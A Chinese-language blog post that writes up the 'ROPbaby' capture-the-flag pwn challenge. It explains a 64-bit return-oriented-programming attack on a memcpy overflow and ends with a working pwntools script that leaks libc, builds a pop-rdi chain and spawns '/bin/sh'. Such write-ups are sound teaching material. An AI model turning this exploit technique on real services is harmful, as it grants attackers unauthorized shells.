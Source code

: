 ```yaml
---
layout:     post
title:      实验吧ROPbaby(PWN)
subtitle:   一道简单的ROP手法的PWN题
date:       2019-07-26
author:     LISTONE
header-img: img/post-bg-digital-native.jpg
catalog: true
tags:
    - linux
    - Notes
---
```

>本文首发于博主公众号LISTONE，欢迎关注哦！

题目链接：[ROPbaby](http://www.shiyanbar.com/ctf/2028)
（没想到题目服务器挂掉了，只能本地做了）

这个题目给了我们两个文件一个ROPbaby，一个libc。

首先查看ropbaby的文件信息和保护方式。

在这里可以看到程序开启了NX，这样的话shellcode的方式就很难用了，因此我们用ROP的方法来溢出攻击。

ROP的思路就是通过返回导向式编程，劫持程序的返回地址，将其定位到目标位置，在CTF中，我们一般都是劫持程序运行`system('/bin/sh')`。

这个程序通过上面的信息可以知道是64位的，在64位程序中，函数调用时，前六个参数是通过`rdi`、`rsi`、`rdx`、`rcx`、`r8`和`r9`来进行传递的，我们的目的是劫持程序执行`system('/bin/sh')`这个语句。

因此，我们需要做的就是：
1. 找到溢出点
2. 构造gadget，包含`pop rdi | retn`
3. 在libc中找到`/bin/sh`字符串的地址，并送入`rdi`寄存器
4. 找到`system`函数地址，并使程序跳转执行`system`函数

通过题目中给出的libc文件，我们可以轻易地在终端中使用如下命令找到`pop rdi | retn`的地址
```
ROPgadget --binary libc-2.23.so --only "pop|ret" |grep "pop rdi"
```
结果如下：  
![ROPgadget](http://wx2.sinaimg.cn/large/007cEDWily1g5dnsj933cj30gx02gmxx.jpg)

我们需要着重记住上面我框住的那个地址。

找溢出点：
在程序中有一个`memcpy`函数如下：  
![memcpy](http://wx2.sinaimg.cn/large/007cEDWily1g5dnslmgusj308301d745.jpg)

其中`savedergs`是以`int64`声明的，因此最多可输入8个字符，之后多输入就会溢出，这个地方就是我们要找的溢出点了。

然后在libc中找到`/bin/sh`的地址，用下面的命令就可以：
```
strings -tx libc-2.23.so|grep "/bin/sh"
```
![/bin/sh](http://wx2.sinaimg.cn/large/007cEDWily1g5dnsp9s5mj30am0193yj.jpg)

在这个程序中可以直接查找`system`函数的地址，但是我们需要找到程序的基址，所以我们需要找到`system`的偏移地址。
```
 objdump -T libc-2.23.so|grep "system"
```
![objdump](http://wx3.sinaimg.cn/large/007cEDWily1g5dnssdtqnj30jp02ddh1.jpg)
这里面0x45390就是`system`函数的地址

所以，我们可以写出利用脚本：

```
#!/usr/bin/env/python
# coding=utf-8  
from pwn import *  
#context.log_level = "debug"  
env = os.environ  
#p = remote('106.2.25.7','8004')  
p = process('./ropbaby')  
pop_rdi_ret_offset = 0x21102  
  
str_bin_sh_offset = 0x18cd17  

system_addr_offset = 0x45390  
  
p.recvuntil(':')  
p.sendline('2')  
p.recvuntil('Enter symbol: ')  
p.sendline('system')  
  
system_addr = int(p.recvline()[15:],16)  
print '[+]system_addr: '+ str(hex(system_addr))  

base_addr = system_addr - system_addr_offset  
  
str_bin_sh_addr = base_addr + str_bin_sh_offset  
print "[+]binsh: " + str(hex(str_bin_sh_addr))  
rdi_ret = base_addr + pop_rdi_ret_offset  
  
p.recvuntil(':')  
p.sendline('3')  
p.recvuntil('Enter bytes to send (max 1024): ')  
  
payload = 'a'*8 + p64(rdi_ret) + p64(str_bin_sh_addr) + p64(system_addr)  
  
# p.sendline(str(len(payload)))  
p.sendline('32')  
p.sendline(payload)  
  
p.interactive()  
```